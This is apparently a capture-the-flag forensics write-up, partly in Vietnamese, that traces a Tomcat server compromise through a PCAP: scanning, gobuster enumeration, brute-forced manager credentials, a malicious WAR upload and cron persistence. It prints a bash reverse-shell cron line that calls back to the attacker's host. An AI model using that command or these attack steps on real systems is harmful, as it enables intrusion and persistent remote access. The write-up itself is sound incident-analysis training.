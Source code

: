 # Mô tả

The SOC team has identified suspicious activity on a web server within the company's intranet. To better understand the situation, they have captured network traffic for analysis. The PCAP file may contain evidence of malicious activities that led to the compromise of the Apache Tomcat web server. Your task is to analyze the PCAP file to understand the scope of the attack.

# Phân tích

## Flag 1 2 3

Given the suspicious activity detected on the web server, the PCAP file reveals a series of requests across various ports, indicating potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server? `14.0.0.120`

Based on the identified IP address associated with the attacker, can you identify the country from which the attacker's activities originated? `China`

From the PCAP file, multiple open ports were detected as a result of the attacker's active scan. Which of these ports provides access to the web server admin panel? `8080`

## Flag 4 

Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?

Trong quá trình enumerate các thư mục trên server thì tool thương sẽ chạy quét gửi GET đến nhiều thư mục khác nhau mà một server thường có vậy nên sẽ hiện ra rất nhiều các request đến nhưng thư mục không tồn tại trên server(Lúc đó sẽ trả về code 404 not found) thì ta chỉ cần kiểm tra phần `User Agent`(Được thực hiện từ phần mềm nào) của request đó, thông thường nếu ta GET 1 trang web thì `User Agent` của ta sẽ là Mozilla, Chrome, ... ở đây của hacker sẽ khác biệt

```
GET /docs/ HTTP/1.1
Host: 10.0.0.112:8080
User-Agent: gobuster/3.6
Accept-Encoding: gzip
```



`gobuster`

## Flag 5

After the effort to enumerate directories on our web server, the attacker made numerous requests to identify administrative interfaces. Which specific directory related to the admin panel did the attacker uncover?

Tìm đến những request mà có response code = 200(Thành công) liên qua đến admin như là manager, admin-panel, ..., có thể lướt đến cuối cùng sau các response 404 để biết được hacker đã tìm thấy gì

`/manager`

## Flag 6

After accessing the admin panel, the attacker tried to brute-force the login credentials. Can you determine the correct username and password that the attacker successfully used for login?

```
GET /manager/html HTTP/1.1
Host: 10.0.0.112:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46dG9tY2F0
```

Sau đó là lúc hacker chạy bruteforce các tài khoản và mật khẩu khác nhau, tài khoản và mật khẩu mà hacker đã sử dụng sẽ được để trong phần `Authorization` của request header và được mã hoá bằng b64, ta cũng có thể thấy trong pcap nhiều response code 401 - unauthorized đó sẽ là những creds bị sai.

Muốn tìm creds đúng thì sẽ tìm request đến `/manager/html` được trả về code 200 là được (Như ví dụ trên)

`YWRtaW46dG9tY2F0` dịch ra là `admin:tomcat`

## Flag 7

Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?

Sau đó một vài packet hacker gửi 1 request POST

```
POST /manager/html/upload;jsessionid=0DE586F27B2F48D0CA045F731E0E9E71?org.apache.catalina.filters.CSRF_NONCE=83EDF4E2462ECC725BAF342DD7A46974 HTTP/1.1
Host: 10.0.0.112:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.0.0.112:8080/manager/html
Content-Type: multipart/form-data; boundary=---------------------------309854885940911807712888696060
Content-Length: 1324
Origin: http://10.0.0.112:8080
Authorization: Basic YWRtaW46dG9tY2F0
Connection: keep-alive
Cookie: JSESSIONID=0DE586F27B2F48D0CA045F731E0E9E71
Upgrade-Insecure-Requests: 1

-----------------------------309854885940911807712888696060
Content-Disposition: form-data; name="deployWar"; filename="JXQOZY.war"
Content-Type: application/octet-stream
```

File độc hại ở đây là `JXQOZY.war`

## Flag 8

After successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?

Trong tcp stream `9461`(ở cuối file pcap) sau khi đã upload file độc hại lấy shell thì hacker thực hiện persistence qua cronjob 

```
whoami

root

cd /tmp
pwd

/tmp

echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'" > cron
crontab -i cron
crontab -l

* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
```

`* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'` 

- `* * * * * `: Chạy lệnh mỗi 60s

- `bash -i`: Chạy interactive shell của bash
- `\>& /dev/tcp/14.0.0.120/443`: Chuyển hướng input và output của bash đến `14.0.0.120` qua port 443 qua TCP
- `0>&1'`: Nghĩa là chuyển hướng đầu vào (stdin – 0) đến đầu ra (stdout – 1). Những gì gõ từ phía máy tấn công (qua kết nối TCP) sẽ được chuyển thành đầu vào cho Bash

Nói chung là lệnh này muốn kết nối đến `14.0.0.120:443` và nếu hacker đang listen trên đó thì sẽ có được shell và chạy mỗi 60s để đảm bảo duy trì kết nối

`* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`
